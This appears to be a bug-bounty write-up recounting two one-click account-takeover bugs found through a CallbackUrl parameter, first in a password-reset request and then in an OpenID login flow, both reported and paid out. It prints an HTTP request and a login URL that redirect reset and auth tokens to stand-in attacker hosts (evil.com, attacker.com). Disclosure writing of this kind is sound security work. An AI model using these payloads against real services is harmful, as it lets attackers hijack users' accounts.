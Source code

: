 # How a Single Parameter Led to Two ATO Cases

**Published:** May 18, 2024

Hey guys, Today, I'm excited to share an intriguing story about how a **single parameter** in an application led to two account takeover cases and earned me a **four-digit bounty**. The program is a private one on HackerOne, and I was among the first few hackers to get invited. I'll explain two bugs I found here. Both account takeover (**ATO**) cases are one-click exploits, meaning the victim only needed to perform a single interaction.

![Excited GIF](/images/excited.gif)

## Weakness in the Password Reset Functionality

I was testing the password reset functionality of this application and discovered an interesting parameter called `CallbackUrl` from the password reset request.

```http
POST /auth/resetpassword HTTP/2
Host: api.example.com
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
Origin: https://app.example.com
Referer: https://app.example.com

{"Email":"victim@example.com","CallbackUrl":"https://evil.com/auth/reset-password"}
```

When a user requests a password reset link, the server sends a request to the specified email with a password reset link that contains a token. However, I discovered that if an attacker changes the request parameter `CallbackUrl` to a domain that they control, the password reset link will be sent like `attacker.domain.com/auth/reset-password?token=token` to the user's email. **This means that the attacker can obtain the password reset token when the user clicks the link and use it to take over the user's account.**

![Password Reset Flow](/images/password-reset-flow.png)

**I reported the issues, and they marked the report as high severity and rewarded me with a $$$$ digit bounty.**

![Happy GIF](/images/happy.gif)

This discovery sparked my curiosity to dig deeper into the platform. I searched the application JavaScript for corresponding parameters and found that the same parameter is used in the **application's OAuth flow**.

## Account Takeover via Misconfigured OpenID

During my testing on the **OAuth** mechanism of the application, I got another security flaw that could potentially lead to One click account takeover. This vulnerability stems from a misconfiguration in the **OpenID** implementation, specifically in the `callbackUrl` parameter used in the authentication flow with various identity providers.

I discovered that an attacker could exploit this misconfiguration by manipulating the `callbackUrl` parameter by redirecting it to an attacker-controlled domain, malicious actors could intercept the authentication process and potentially gain unauthorized access to user accounts.

**For example:**

- Google: `https://api.example.net/openid/google?callbackUrl=https://attacker.com/auth/register`

Initiating the authentication process with the respective provider results in the authentication response being redirected to the **attacker's domain**.

Exploiting this vulnerability allows attackers to intercept authentication responses, potentially obtaining access tokens. The authentication response is redirected to the **attacker-controlled domain** specified in the modified `callbackUrl` parameter.

After reporting the issue, the team responded by explaining that they considered the reported vulnerability as part of the **previous** `callbackUrl` **fix**. They emphasized that their policy only allows for one bounty payment per bug and considered **duplicates** unacceptable. Despite their explanation, I reiterated my findings, emphasizing that the vulnerability persisted specifically in the `callbackUrl` of the Auth0 endpoint. I acknowledged their efforts in resolving the previous bug but urged them to consider this as a separate issue due to its potential risk of account takeover.

![HackerOne Discussion](/images/hackerone-discussion.png)

Following internal discussions, the team ultimately recognized the severity of the vulnerability and awarded me another **$$$$ digit bounty along with an exclusive swag pack** as a token of appreciation for bringing it to their attention.

![Success GIF](/images/success.gif)

**Thanks for taking the time to read through the write-up, and stay tuned for more insights and discoveries in the future**